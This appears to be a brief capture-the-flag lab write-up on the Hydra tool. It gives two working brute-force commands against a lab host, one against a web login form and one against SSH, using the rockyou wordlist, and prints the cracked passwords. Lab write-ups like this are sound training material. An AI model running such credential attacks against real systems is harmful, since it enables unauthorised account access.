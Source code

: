 #Hydra


We need to bruteforce the web form using hydra. so lets do it.
-------------------------------------------------------------------
command: hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.142.52 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
-------------------------------------------------------------------


[80][http-post-form] host: 10.10.142.52   login: molly   password: sunshine                                                                     
We need to bruteforce the ssh for password.
--------------------------------------------------------------------
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.142.52 -t 4 ssh
--------------------------------------------------------------------
[DATA] attacking ssh://10.10.142.52:22/
[22][ssh] host: 10.10.142.52   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found


